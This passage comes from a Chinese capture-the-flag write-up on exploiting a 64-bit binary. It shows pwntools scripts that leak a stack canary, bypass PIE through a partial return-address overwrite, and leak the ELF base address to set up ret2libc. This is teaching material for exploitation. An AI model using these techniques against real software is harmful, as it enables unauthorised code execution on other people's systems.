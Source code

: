 thinking_note 在栈中的相对位置为 rbp-0x260。这里也可以利用IDA查看 vul 的栈结构(双击局部变量，打开stack view)，得出两个距离。var_8 就是 canary 值。s、r 分别是 rbp、rip 的缩写。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191217002256.png)

至此程序就等于关闭 canary 保护。泄露canary部分：

```python
print p.recvuntil("path:")
p.sendline("flag")
print p.recvuntil("len:")
p.sendline("1000")	#大于0x258且不等于0x270
payload = "A" * (0x260-8)+"B"
p.send(payload)
print p.recvuntil("B")
canary = u64(p.recv(7).rjust(8,"\x00"))
print "cancay:", hex(canary)
x = p.recvline()
```

### ret2main

由于程序开启了 PIE 保护，并不能直接将 rip 覆写为 IDA 显示的 vul 地址。但是 PIE 技术存在缺陷，就是某一条指令的后三位十六进制数的地址是不变的。但是我们也只能覆写最后两位，为什么？

checksec 的时候看到了程序是：amd64-64-little，采用小端序存储。高字节存在高地址处，然后栈是从高地址向低地址增长的，ret的末两位（低字节）自然存在栈的低地址处，即靠近rbp的那一头，所以覆盖rbp以后的两位就是覆盖了ret的末两位。举个例子🌰：

```
IDA、gdb中显示的：				   0x0123456789abcdef
实际上在内存中的样子：	<= low addr     0xefcdab8967452301		high addr =>
```

从例子中可以看到，最后34位是连在一起了，不能单独修改其中的一个。退而求其次，覆写最后两位。ret 的函数可以是 main 或者是 vul 。因为两者地址倒数第三位相同。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191217225325.png)

ret2main部分代码:

```python
p.recvuntil("(len is 624)\n")
payload = "A" * (0x260-8) 
payload += p64(canary)	#恢复破坏的canary
payload += 'a'*0x8	#overwrite rbp
payload += "\x20"
p.send(payload)
```



### leak elf_base_addr

拿到程序canary后，就可以顺便把PIE也绕过了，也就是找到程序加载的偏移。在 vul 中栈溢出，打印出 vul ret 值，然后与 0xd2e (call vul 下一行)相减得到偏移值。

至此题目就是一道普通的ret2libc题目，泄露elf偏移部分代码：

```python
print p.recvuntil("path:")
p.sendline("flag")
print p.recvuntil("len:")
p.sendline("1000")
payload = "A" * (0x260+7)+"B"
p.send(payload)
print p.recvuntil("B")
x = p.recvline()
val = u64(x[:-1].ljust(8,"\x00"))
print "val:", hex(val)
elf_base = val - val_add
print hex(elf_base)
p.recvuntil("(len is 624)\n")
```